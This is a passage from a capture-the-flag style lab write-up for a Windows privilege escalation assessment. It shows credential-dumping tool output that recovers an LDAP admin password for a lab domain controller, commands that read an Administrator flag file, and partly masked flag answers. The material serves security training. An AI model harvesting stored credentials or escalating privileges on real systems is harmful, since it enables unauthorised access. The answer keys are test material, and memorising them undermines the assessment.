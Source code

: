 ```
Login: ldapadmin
Password: carXXXXXXXXXXXXXX_cr3d$
Host: dc01.inlanefreight.local
Port: 389


########## User: htb-student ##########

------------------- Apachedirectorystudio passwords -----------------

[+] Password found !!!
AuthenticationMethod: SIMPLE
Login: ldapadmin
Password: carXXXXXXXXXXXX_cr3d$
Host: DC01.INLANEFREIGHT.LOCAL
Port: 389


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 13.7820000648
```

ldap admin password: carXXXXXXXXXXXX_cr3d$

#### 3. Escalate privileges and submit the contents of the flag.txt file on the Administrator Desktop.

In the same powershell session locate the flag.txt in the `C:\Users\Administrator\Desktop\`...: 

```
PS C:\Users\Public\Downloads> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop> type flag.txt
Ev3XXXXXXXXXXXXXXXXXXXXXare!
```
(That was easy..)

Password: Ev3XXXXXXXXXXXXXXXXXXXXXare!

#### 4. After escalating privileges, locate a file named confidential.txt. Submit the contents of this file.

This can be found looking around files in `file explorer`: 

<img width="1401" height="687" alt="image" src="https://github.com/user-attachments/assets/ccb1b664-025d-4a2a-9483-7e6a2cb60808" />
<img width="1399" height="695" alt="image" src="https://github.com/user-attachments/assets/bd9aa71f-d81c-4450-9938-eb521e25a2de" />
<img width="1402" height="704" alt="image" src="https://github.com/user-attachments/assets/d1680a44-78c7-423e-8520-e3e5b835e397" />
<img width="1346" height="521" alt="image" src="https://github.com/user-attachments/assets/4af70326-2a50-4499-aa23-1efa80dbb0a4" />

# Windows Privilege Escalation Skills Assessment - Part II
